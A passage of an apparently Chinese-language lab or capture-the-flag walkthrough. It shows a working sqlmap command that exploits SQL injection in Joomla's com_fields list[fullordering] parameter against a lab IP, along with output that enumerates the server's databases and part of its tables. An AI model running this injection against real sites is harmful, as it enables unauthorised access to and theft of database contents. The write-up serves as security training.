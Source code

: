 ```
[02:40:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[02:40:48] [INFO] fetching database names
[02:40:49] [INFO] retrieved: 'information_schema'
[02:40:49] [INFO] retrieved: 'joomla'
[02:40:50] [INFO] retrieved: 'mysql'
[02:40:50] [INFO] retrieved: 'performance_schema'
[02:40:51] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

# 基于错误，数据库joomla，列出所有数据表
sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E -D joomla --tables --batch
```
[02:55:45] [INFO] fetching tables for database: 'joomla'
Database: joomla
[72 tables]
+----------------------------+
| # __assets                  |
| # __associations            |
| # __banner_clients          |
| # __banner_tracks           |
| # __banners                 |
| # __categories              |
| # __contact_details         |
| # __content_frontpage       |
| # __content_rating          |
| # __content_types           |
| # __content                 |
| # __contentitem_tag_map     |
| # __core_log_searches       |
| # __extensions              |
| # __fields_categories       |
| # __fields_groups           |
| # __fields_values           |
| # __fields                  |
| # __finder_filters          |
| # __finder_links_terms0     |
| # __finder_links_terms1     |
| # __finder_links_terms2     |
| # __finder_links_terms3     |
| # __finder_links_terms4     |
| # __finder_links_terms5     |
| # __finder_links_terms6     |
| # __finder_links_terms7     |
| # __finder_links_terms8     |
| # __finder_links_terms9     |
| # __finder_links_termsa     |
| # __finder_links_termsb     |
| # __finder_links_termsc     |
| # __finder_links_termsd     |
| # __finder_links_termse     |
| # __finder_links_termsf     |
```